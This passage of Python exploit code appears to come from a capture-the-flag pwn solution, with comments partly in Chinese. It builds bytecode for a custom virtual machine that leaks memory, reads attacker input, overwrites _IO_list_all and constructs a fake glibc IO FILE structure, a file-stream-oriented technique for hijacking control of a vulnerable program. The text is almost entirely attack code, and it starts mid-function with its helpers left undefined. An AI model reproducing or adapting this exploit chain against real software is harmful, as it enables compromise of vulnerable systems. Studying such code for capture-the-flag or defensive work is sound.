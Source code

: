 ```py
        assign_type(1, cnt + 18 + i)
        buf1 += b"\x01"

def print_content(cnt, addr, size):
    global buf1, buf2
    # *(_DWORD *)(a1 + 51) set to 0x20 *(_DWORD *)(a1 + 55) set to addr *(_DWORD *)(a1 + 63) set to size
    assign_type(1, cnt)
    buf1 += b"\x21" + p8(0x10) + p32(1)
    assign_type(1, cnt + 6)
    buf1 += b"\x21" + p8(0x20) + p32(0X8000) # these are adds
    assign_type(1, cnt + 12)
    buf1 += b"\x01"

def stdin_read(cnt):
    global buf1, buf2
    assign_type(1, cnt)
    buf1 += b"\x31" + p8(0x10) + p32(1)
    assign_type(1, cnt + 6)
    buf1 += b"\x21" + p8(0x20) + p32(0x67)
    assign_type(1, cnt + 12)
    buf1 += b"\x31" + p8(0x30) + p32(0xe8) # 只用读入8个字节就行
    assign_type(1, cnt + 18)
    buf1 += b"\x01"

def write_io_list_all(cnt):
    global buf1, buf2
    # *(_DWORD *)(a1 + 51) set to 0x20 *(_DWORD *)(a1 + 55) set to addr *(_DWORD *)(a1 + 63) set to size
    assign_type(1, cnt)
    buf1 += b"\x21" + p8(0x20) + p32(0x1000 - 0x67) # these are adds
    assign_type(1, cnt + 6)
    buf1 += b"\x01"

def construct_fake_iofile(cnt):
    global buf1, buf2
    assign_type(1, cnt)
    buf1 += b"\x21" + p8(0x20) + p32(0x1000)
    assign_type(1, cnt + 6)
    buf1 += b"\x21" + p8(0x30) + p32(0xf0) # for io file
    assign_type(1, cnt + 12)
    buf1 += b"\x01"

# 直接把那个 mmap 地址计数清零即可
def resume_mmap_region1(cnt):
    global buf1, buf2
    # *(_DWORD *)(a1 + 51) set to 0x20 *(_DWORD *)(a1 + 55) set to addr *(_DWORD *)(a1 + 63) set to size
    assign_type(1, cnt)
    buf1 += b"\x31" + p8(0x20) + p32(0x2000 - 0x10 - 135) # these are adds
    assign_type(1, cnt + 6)
    buf1 += b"\x31" + p8(0x30) + p32(0xf7)
    assign_type(1, cnt + 12)
    buf1 += b"\x01"

get_addrs(len(buf1))

stack_mmap(len(buf1), 0xa000)
stack_mmap(len(buf1), 0xb000) # mmap another chunk
stack_mmap(len(buf1), 0xc000) # for storing the fake io file content

reg_sub_imm(len(buf1), 5, 0x2c0)
print_content(len(buf1), 0xa000, 0xf0)
```